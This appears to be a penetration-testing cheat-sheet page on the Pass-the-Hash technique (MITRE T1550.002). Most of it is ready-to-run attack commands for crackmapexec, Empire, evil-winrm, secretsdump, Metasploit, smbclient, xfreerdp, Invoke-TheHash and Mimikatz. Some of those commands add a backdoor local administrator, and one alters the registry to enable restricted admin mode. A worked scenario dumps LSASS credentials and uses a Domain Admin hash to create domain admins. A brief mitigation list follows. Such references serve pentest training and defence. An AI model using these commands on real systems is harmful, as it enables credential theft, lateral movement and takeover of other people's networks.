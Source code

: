 description: https://attack.mitre.org/techniques/T1550/002/

# Pass The Hash

**ATT\&CK ID:** [T1550.002](https://attack.mitre.org/techniques/T1550/002/)

**Permissions Required:** <mark style="color:green;">**Valid account hash**</mark>

#### Description

Adversaries may "pass the hash" using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's clear text password. This method bypasses standard authentication steps that require a clear text password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform Pass the Ticket attacks.

[\[Source\]](https://attack.mitre.org/techniques/T1550/002/)

## Techniques (Linux)

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -H <NTLM>
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'

# local account login
crackmapexec smb <IP> -u <User> -H <NTLM> --local-auth
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' --local-auth
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215540.png)

### Empire

```bash
usemodule lateral_movement/invoke_smbexec

# Parameters
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set ComputerName '10.10.10.100'
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Domain security.local
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Hash 58a478135a93ac3bf058a5ea0e8fdb71
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Username moe
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > execute
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215550.png)

### Evil-WinRM

```bash
evil-winrm -i <IP> -u <User> -H <NThash>
evil-winrm -i '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215558.png)

### LDAP

```bash
secretsdump.py <User>@<IP> -hashes <Hash>
secretsdump.py moe@10.10.10.100 -hashes aad321b35b51404eeaad982b5b51404ee:b38ff50264b7458734d82c69794a4d8
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215610.png)

### Metasploit

```bash
use exploit/windows/smb/psexec

# Set hash as password
set smbpass "aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71"
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215617.png)

### Smbclient

```bash
smbclient //<IP>/<Share> -U <User> --pw-nt-hash <Hash> -W <Domain>
smbclient '//10.0.0.100/IT' -U 'moe' --pw-nt-hash '58a478135a93ac3bf058a5ea0e8fdb71' -W 'security.local'
```

### xFreeRDP

This method requires "Restricted Admin Mode" enabled on the target system.

```bash
xfreerdp /v:10.10.10.100 /u:moe /pth:58a478135a93ac3bf058a5ea0e8fdb71
```

```bash
# Enable restricted admin mode, requires elevated permissions.
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Techniques (Windows)

### Invoke-TheHash

```powershell
# SMB Options
# Check SMB signing
Invoke-TheHash -Type SMBExec -Target '[IP]'
Invoke-TheHash -Type SMBExec -Target [CIDR]

# Check for command execution 
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# Pass hash to target and execute specified command 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]' 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

 # Enumerate SMB Shares / Users / Net Sessions 
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# WMI Options
# Check for command execution (WMI)
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target [CIDR]

 # Pass hash to target and execute specified command (WMI)
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

```

### Mimikatz

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

## Scenario

In the following scenario we have compromised a Windows 2019 member server SRV01.Security.local and escalated privileges to the local administrator account. We then dumped credentials from LSASS memory using `Mimikatz` and have obtained the NTLM password hash for the Domain Administrator "Moe".

#### LSASS Memory Credential Dumping

We are working as the local administrator on SRV01 so we are unable to perform administrative function on the Domain.

As we have the NTLM hash for the Domain Administrator "Moe" we are able to use Mimikatz to Pass-The-Hash to a new process such as PowerShell.

By doing so we are able to then use the newly spawned PowerShell process to perform domain administrative functions.

Under our local administrator account and as expected, we are unable to create a new domain user.

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215721.png)

Next we Pass-The-Hash for the Domain Administrator Moe:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215736.png)

Which opens a new PowerShell process for us. Where, we still notice we are running as the local administrator on the member server SRV01 however, we now have the ability to work as the Domain Administrator Moe and create a new domain user and add them to the "Domain Admins" group.

![](../../../Writeups/HTB/Assets/Pasted%20image%2020250619215745.png)

## Mitigation

* Enable Windows Credential Guard
* Deploy Microsoft LAPS
* Disable LM/NTLM authentication in the environment
* Reduce amount of cached logon passwords stored
* Limit administrative users in the domain / locally.

### Further Reading

**Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft Techniques v2:** [Download](https://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating-Pass-the-Hash-Attacks-and-Other-Credential-Theft-Version-2.pdf)